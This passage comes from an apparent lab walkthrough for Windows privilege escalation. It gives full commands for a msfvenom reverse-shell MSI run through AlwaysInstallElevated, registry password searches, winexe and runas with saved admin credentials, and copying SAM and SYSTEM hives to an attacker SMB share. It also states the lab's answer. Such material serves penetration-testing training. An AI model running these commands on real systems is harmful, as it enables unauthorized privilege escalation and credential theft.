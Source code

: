     msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi

Transfer the `reverse.msi` file to the `C:\PrivEsc` directory on Windows (use the SMB server method from earlier).
Start a listener on Kali and then run the installer to trigger a reverse shell running with `SYSTEM` privileges:

    msiexec /quiet /qn /i C:\PrivEsc\reverse.msi

## Passwords - Registry

The registry can be searched for keys and values that contain the word "password":

    reg query HKLM /f password /t REG_SZ /s

If you want to save some time, query this specific key to find admin AutoLogon credentials:

    reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

On Kali, use the `winexe` command to spawn a command prompt running with the admin privileges (update the password 
with the one you found):

    winexe -U 'admin%password' //MACHINE_IP cmd.exe

### Questions

**What was the admin password found in the registry?**

Answer: `password123`

## Passwords - Saved creds

List any saved credentials:

    cmdkey /list

Note that credentials for the `admin` user are saved. If they aren't, run the `C:\PrivEsc\savecred.bat` script to 
refresh the saved credentials.

Start a listener on Kali and run the reverse.exe executable using runas with the `admin` user's saved credentials:

    runas /savecred /user:admin C:\PrivEsc\reverse.exe

## Passwords - Security Account Manager (SAM)

The `SAM` and `SYSTEM` files can be used to extract user password hashes. This VM has insecurely stored backups of the 
`SAM` and `SYSTEM` files in the `C:\Windows\Repair\` directory.

Transfer the `SAM` and `SYSTEM` files to the Kali VM:

    copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
    copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
